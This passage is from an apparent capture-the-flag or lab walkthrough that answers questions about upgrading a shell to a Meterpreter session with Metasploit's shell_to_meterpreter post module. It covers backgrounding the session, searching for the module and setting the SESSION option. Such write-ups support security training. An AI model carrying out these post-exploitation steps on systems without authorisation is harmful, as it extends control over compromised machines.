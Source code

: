 <br />

We push the current shell to the background:
```
background
```

Alternatively:
```
Ctrl + Z
```

We now have to go back and search for ```shell_to_meterpreter``` as hinted on the question.
```
search shell_to_meterpreter
```
The only result coming up is ```post/multi/manage/shell_to_meterpreter```.

![image](https://user-images.githubusercontent.com/14150485/171119350-819f41db-0d4b-40fc-8165-3cc20900b5af.png)

```
post/multi/manage/shell_to_meterpreter
```

<br />

### 3.2: Select this (use MODULE_PATH). Show options, what option are we required to change?

<br />

Listing the options for this module, we will be required to update the ```SESSION``` attribute with our active session ID.

![image](https://user-images.githubusercontent.com/14150485/171119843-5c4500bc-8dc8-4489-b6e1-c2b6ed15dfd2.png)

The answer is:
```
SESSION
```

<br />

### 3.3: Set the required option, you may need to list all of the sessions to find your target here.

<br />

We can view our active session ID using the ```sessions``` command.
```
sessions
```
![image](https://user-images.githubusercontent.com/14150485/171120026-1779fb73-d2ae-4066-8487-fa8f5e69403d.png)

We can now proceed to update the value:
```
set SESSION SESSION_ID
```
That's it, we should now be ready to run the exploit.
